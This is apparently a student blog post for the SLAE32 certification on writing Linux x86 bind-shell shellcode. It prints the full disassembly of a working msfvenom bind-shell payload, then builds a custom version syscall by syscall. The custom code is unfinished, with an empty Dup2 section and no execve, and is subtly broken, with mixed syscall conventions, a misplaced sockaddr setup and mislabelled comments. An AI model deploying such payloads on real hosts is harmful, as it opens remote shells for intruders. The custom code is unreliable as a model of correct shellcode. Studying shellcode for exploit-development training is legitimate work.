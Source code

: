 ```yaml
---
title: "SLAE32 0x01: Shell_Bind_TCP Shellcode"
date: 2019-10-19
category: [SLAE32]
tags: [assembly, c, python, exploit development, bind shell, linux, SLAE32]
header:
    teaser: "/assets/images/slae/shell.jpg"
---
```

## Shell Bind TCP Objectives

Create a Shell_Bind_TCP shellcode that;
1. Binds to an easily configurable port number
2. Executes a shell on an incoming connection

### MSFVenom Shellcode Under the Microscope

A bind shell is a type of shell in which the system on which the code is run binds a TCP socket that is designated to listen for incoming connections to a specified port and IP address. When a bind shell is used, the system on which the bind shell is executed acts as the listener. When a connection is accepted on the bound and listening socket on the designated port and IP address, a shell will be spawned on the system on which the code is run. 

While analyzing shell_bind_tcp shellcode produced by msfvenom, it appears that a total of six syscalls are executed in sequential order. The order goes: `socket`, `bind`, `listen`, `accept`, `dup2`, `execve`. We can analyze unistd_32.h to grab our syscall identifiers:
```
egrep "_socket |_accept |_bind |_listen |_accept4 |_dup2 |_execve " unistd_32.h

#define __NR_execve 11
#define __NR_dup2 63
#define __NR_socket 359
#define __NR_bind 361
#define __NR_listen 363
#define __NR_accept4 364
```

Each serve a purpose in creating a bind shell. Let's analyze the first function in this payload, socket. 

### Referencing MSF Goodies
```msfvenom -p linux/x86/shell_bind_tcp -f raw| ndisasm -u -``` produces a bind shell payload the size of 78 bytes:

```nasm
xor ebx,ebx  
mul ebx  
push ebx  
inc ebx  
push ebx  
push byte +0x2 
mov ecx,esp  
mov al,0x66  
int 0x80 ;;; socket 
pop ebx  
pop esi  
push edx  
push dword 0x5c110002 
push byte +0x10 
push ecx  
push eax  
mov ecx,esp  
push byte +0x66 
pop eax  
int 0x80 ;;; bind
mov [ecx+0x4],eax  
mov bl,0x4  
mov al,0x66  
int 0x80 ;;; listen
inc ebx  
mov al,0x66  
int 0x80 ;;; accept
xchg eax,ebx  
pop ecx  
push byte +0x3f 
pop eax  
int 0x80 ;;; dup2
dec ecx  
jns 0x32  
push dword 0x68732f2f 
push dword 0x6e69622f 
mov ebx,esp  
push eax  
push ebx  
mov ecx,esp  
mov al,0xb  
int 0x80 ;;; execve
```

## Building a TCP Bind Shell.

The socket or SYS_SOCKETCALL is syscall decimal number 102 or hex 0x66 which receives three arguements according to `man7.org/linux/man-pages/man2/socketcall.2.html`. The received arguements are `domain (selects the protocal which we want tcp)`, `type (we want SOCK_STREAM)`, and `protocol ()`.

Any socket in C would be built upon the skeleton below:

```c 
socket_skeleton = int socket(int domain, int type, int protocol);
```

The manpage ip(7) further explains that a TCP socket should be created with these paramaters:

```c 
tcp_socket = socket(AF_INET, SOCK_STREAM, 0);
``` 
which in pseudocode would be translated to:
```c 
tcp_socket = 0x66(2, 1, 0)
```

Further examples of alternate sockets include:

```c
udp_socket = socket(AF_INET, SOCK_DGRAM, 0)
raw_socket = socket(AF_INET, SOCK_RAW, protocol)
```


### Socket
```nasm
global _start

section .text
_start:
	;Begin by calling/intializing socket
	
	push 0x66 ; rather than xor'ing eax, eax we can do a push 
	pop eax   ; of the syscall socket and pop it into eax sparing us a byte (eax).
	
	;Feed socket syscall it's arguements starting with domain (1 aka SYS_SOCKET) 
	;which can be referenced in /usr/include/linux/net.h.
	xor edi, edi  ; clear edi 
	push edi      ; push edi (0x0) on stack. protocol=IPPROTO_IO (0x0)
	push 0x1      ; put a 1 on the stack
	pop ebx	      ; socketcall needs ebx to be 1. this clears ebx and moves 1 to ebx
	push ebx      ; push second arg on stack. socket_type=SOCK_STREAM (0x1)
	push 0x2      ; push first arg on stack socket_family=AF_INET (0x2)
	mov ecx, esp  ; move esp pointer to ecx per socketcall requirements [2, 1, 0]
	int 0x80      ; call interrupt to execute socket syscall
```

Let's analyze the `BIND` syscall arguements. A bind function would appear as so:
```int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);```


### Bind
Now that we have created a socket, it is time to bind to a given port.

```nasm	
	;int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen)
	;
	;syscall number: 361 (0x169)
	;Argument Values:
	;sockfd = value in eax returned by socket()
	;*addr = memory address of structure containing:
	;  - sin_family: 0x0002 (AF_INET/IPv4)
	;  - sin_port: 0x0539 (1337)
	;  - sin_addr.s_addr: 0x00000000 (0.0.0.0)
	;addrlen = 0x10 (16/sizeof(sockaddr_in))
	
	mov esi, eax	 ; store sockfd in esi for later use
	push esi	 ; store sockfd on stack

	mov eax, 0x169   ; bind syscall?
	pop ebx 	 ; 0x169(sockfd[3], ) pop sockfd off stack into ebx
	push edi	 ; push 0x00000000 (0.0.0.0) sin.addr[last arg] to stack
	push word 0x0539 ; push port 1337 to stack
	push word 0x0002 ; push AF_INET/IPV4 [2] to stack
	mov ecx, esp	 ; mov pointer of stack to ecx
	mov edx, 0x10	 ; mov 16 bit address length to edx
	int 0x80	 ; execute interrupt 
	
	;the structure for sockaddr_in per 'man 7 ip' looks like:
	;struct sockaddr_in {
  	;  sa_family_t    sin_family; /* address family: AF_INET */
    	;  in_port_t      sin_port;   /* port in network byte order */
    	;  struct in_addr sin_addr;   /* internet address */
	;  }; 
	
	push edi	 ; sin_addr; 0x0 ip address 0.0.0.0; the value a is interpreted as a 32 bit value per 'man inet_addr'
	push word 0x3905 ; sin_port=1337
	push 0x2	 ; sin_family=AF_INET
	mov ecx, esp	 ; save pointer to sockaddr_in struct in ecx
```

### Listen
Socket and bind are complete. Next we need to execute the listen syscall.

```nasm
	;int listen(int sockfd, int backlog)	
	;
	;syscall number: 363 (0x16B)
	;Arguement Values:
	;sockfd = stored in esi (refers to a socket of type SOCK_STREAM)
	;backlog = max length to which the queue of pending connections
	;	   for sockfd may grow.
	;
	push 0x16B	; bind syscall
	pop eax		; mov bind to eax
	mov ebx, esi	; mov sockfd into ebx
	mov ecx, 5	; set a backlog of 5 
	int 0x80	; interrupt 
```

### Accept
Time to accept incomming connections.

```nasm
	;int accept4(int sockfd, struct sockaddr *addr, socklen_t *addrlen, int flags)
	;
	;syscall number: 364 (0x16C)
	;Arguement Values:
	;sockfd = stored in esi (refers to a socket of type SOCK_STREAM)
	;*sockaddr = NULL (0x00)
	;*addrlen = NULLL (0x00)
	;flags = NULL
	;
	mov eax, 0x16C	; accept4 syscall
	xor ecx, ecx	; 0x00 sockaddr
	xor edx, edx	; 0x00 addrlen
	xor esi, esi	; 0x00 flags
	int 0x80	; interrupt
```

### Dup2
Redirect STDIN, STDOUT, STDERR.

```nasm

```







```shell
root@kali:~/workspace/SLAE# grep SYS /usr/include/linux/net.h
#define SYS_SOCKET      1               /* sys_socket(2)                */
#define SYS_BIND        2               /* sys_bind(2)                  */
#define SYS_CONNECT     3               /* sys_connect(2)               */
#define SYS_LISTEN      4               /* sys_listen(2)                */
#define SYS_ACCEPT      5               /* sys_accept(2)                */
...

_This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:_

<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>

_Student ID: SLAE-1469_

